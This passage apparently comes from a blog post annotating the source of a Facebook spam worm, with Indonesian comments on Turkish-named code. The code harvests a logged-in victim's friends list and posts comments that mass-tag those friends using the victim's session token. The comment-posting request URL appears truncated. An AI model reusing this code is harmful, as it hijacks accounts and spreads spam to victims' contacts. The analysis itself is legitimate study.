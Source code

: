                for (i=f*27; i<(f+1)*27; i++) {
                    if (arkadaslar.payload.entries[i]) {
                        mesaj+= ' @['+arkadaslar.payload.entries[i]['uid']+':'+arkadaslar.payload.entries[i].text+']';
                        mesaj_text+= ' '+arkadaslar.payload.entries[i].text;
                    }
                }

                yorum_yap(id, mesaj);
            }
        }
    }

    var target_url = '&filter[0]=user&options[0]=friends_only&options[1]=nm&token=v7&viewer='+user_id+'&__user='+user_id;

    if (document.URL.indexOf('https://') >= 0) {
        request.open('GET', 'https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1'+target_url, true);
    } else {
        request.open('GET', 'http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1'+target_url, true);
    }

    request.send();
}

// belum tau ini fungsinya buat apaan, soalnya keliatannya fungsi ini nggak dipake
function RandomArkadas() {
    var target_id = '';

    for (i=0; i<9; i++) {
        target_id += ' @['+arkadaslar.payload.entries[Math.floor(Math.random()*arkadaslar.payload.entries.length)]['uid']+':'+arkadaslar.payload.entries[Math.floor(Math.random()*arkadaslar.payload.entries.length)].text+']';
    }

    return target_id;
}

// fungsi untuk posting komentar
function yorum_yap(id, comment) {
    var request = new XMLHttpRequest(),
        target_url = '&ft_ent_identifier='+id+'&comment_text='+encodeURIComponent(comment)+'&source=2&client_id=1377871797138:1707018092&reply_fbid&parent_comment_id&rootid=u_jsonp_2_3&clp={"cl_impid":"453524a0clearcounter":0,"elementid":"js_5version":"xparent_fbid":}&attached_sticker_fbid=0&__user='+user_id+'&attached_photo_fbid=0&giftoccasion&ft[tn]=[]&__a=1'+fb_dtsg+'&__dyn=7n8ahyj35ynxl2u5F97KepEsyo';

    request.open('POST', '&__req=q', true);
    request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            request.close;
        }
    }

    request.send(target_url);
}

arkadaslari_al(id);
{% endhighlight %}
